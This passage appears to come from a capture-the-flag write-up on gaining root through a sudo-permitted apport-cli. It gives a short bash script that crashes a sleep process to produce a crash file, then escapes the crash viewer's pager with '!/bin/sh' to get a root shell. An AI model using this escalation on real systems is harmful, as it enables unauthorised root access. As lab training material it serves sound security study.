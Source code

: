 ```bash

#!/bin/bash

sleep 1000 &  #Runs Sleep process for 1000s in bg

pid=$!        #Get ID of the process 

kill -SEGV $pid #Cause a crash by sending a SEGMENTATION fault signal

sleep 1  #Sleep to wait for the crash file to be generated.


```

This generates the _usr_bin_sleep_1000.crash file in /var/crash which we can then use for our exploit.

```bash
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep_1000.crash
```
and in the interactive menu press "V" for view,
It takes a while to load  and when finally the crash file is displayed with a "**:**" in the end, use 

```!/bin/sh```

to breakout of the pager view and gain root privilege to the system and extract user flag.

Root PWNED.
